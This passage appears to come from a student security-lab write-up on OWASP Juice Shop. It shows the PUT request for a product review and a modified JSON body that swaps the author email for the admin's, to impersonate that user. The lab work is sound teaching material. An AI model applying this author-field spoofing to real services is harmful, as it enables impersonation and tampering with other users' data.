 ![img_13.png](images/img_12.png)

Again, we took care to inspect the requests sent by the application, to understand how it works:

```
PUT /rest/products/1/reviews HTTP/1.1
...
```

```json
{
  "author": "g08@ses.fc.up.pt",
  "message": "We loved the product! Very tasty."
}
```

We noticed that the author's email was sent in the request when a review was created.

Our first thought was that we might be able to impersonate another user, by changing the author's email.
For that, we tried to send a PUT request to `/rest/products/1/reviews` with the following body:

```json
{
  "author": "admin@juice-sh.op",
  "message": "I think this group should get a good grade. Signed, admin."
}
```
